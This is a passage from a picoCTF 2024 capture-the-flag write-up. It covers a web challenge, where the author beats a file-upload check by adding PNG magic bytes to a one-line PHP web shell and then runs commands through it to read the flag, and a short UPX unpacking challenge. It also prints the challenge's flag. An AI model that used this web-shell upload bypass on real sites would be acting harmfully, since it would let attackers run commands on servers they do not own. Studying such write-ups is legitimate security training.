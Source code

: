 Then go to `instructions.txt`.

![instructions](/assets/picoCTF2024/web/trickster/instructions.txt.png)

We can see that the `.png` can be anywhere in the name and the file needs to have the first three bytes as:

`50 4E 47`

To do this we will first make our file have some `php` code to execute commands on the server.

```php
<?php system($_GET['cmd']); ?>
```

Then to make the check get bypassed, we will add `PNG` as the first bytes.
```php
PNG<?php system($_GET['cmd']); ?>
```

Then save the file with a name like `.pngshell.php` and upload it.

To access the file, go to the `uploads` directory which was shown in the `robots.txt`.

Example of supplying arguments to the php script:

```
http://atlas.picoctf.net:54231/uploads/.pngshell.php?cmd=ls
```
If we change `ls` to `cat ../*`, we get the flag.

``🚩:`` **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}**


# Reverse Engineering
---

### Packer [100 PTS]

If you run `strings` on the given binary, you will see a string called UPX.

[UPX](https://upx.github.io/) is a packer for executables.

To unpack the binary, run:
```sh
upx -d file
```
Then open the binary in `ghidra` and you will see in `main` that it prints out the flag in hex.
